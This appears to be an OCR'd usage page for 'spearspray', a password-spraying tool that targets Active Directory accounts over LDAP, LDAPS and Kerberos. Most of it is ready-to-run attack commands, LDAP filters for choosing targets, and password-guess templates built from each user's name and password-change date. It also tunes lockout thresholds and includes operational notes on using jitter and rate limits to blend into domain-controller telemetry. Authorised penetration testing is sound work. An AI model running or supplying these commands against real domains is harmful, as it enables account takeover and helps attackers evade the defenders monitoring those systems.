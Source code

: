 ```

```bash
# List available pattern variables
spearspray -l

# Basic run (LDAP bind over TCP/389)
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local

# LDAPS (TCP/636)
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local --ssl
```
```
Targeting and pattern control:

```bash
# Custom LDAP filter (e.g., target specific OU/attributes)
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local \
  -q "(&(objectCategory=person)(objectClass=user)(department=IT))"

# Use separators/suffixes and an org token consumed by patterns via {separator}/{suffix}/{extra}
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local -sep @-_ -suf !? -x ACME
```
```
Stealth and safety controls:

```bash
# Control concurrency, add jitter, and cap request rate
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local -t 5 -j 3,5 --max-rps 10

# Leave N attempts in reserve before lockout (default threshold: 2)
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local -thr 2
```
```
Neo4j/BloodHound enrichment:

```bash
spearspray -u pentester -p Password123 -d fabrikam.local -dc dc01.fabrikam.local -nu neo4j -np bloodhound --uri bolt://localhost:7687
```
```
Pattern system overview (patterns.txt):

```text
# Example templates consuming per-user attributes and temporal context
{name}{separator}{year}{suffix}
{month_en}{separator}{short_year}{suffix}
{season_en}{separator}{year}{suffix}
{samaccountname}
{extra}{separator}{year}{suffix}
```
```
Available variables include:
- {name}, {samaccountname}
- Temporal from each user’s pwdLastSet (or whenCreated): {year}, {short_year}, {month_number}, {month_en}, {season_en}
- Composition helpers and org token: {separator}, {suffix}, {extra}

Operational notes:
- Favor querying the PDC-emulator with -dc to read the most authoritative badPwdCount and policy-related info.
- badPwdCount resets are triggered on the next attempt after the observation window; use threshold and timing to stay safe.
- Kerberos pre-auth attempts surface as 4768/4771 in DC telemetry; use jitter and rate-limiting to blend in.
```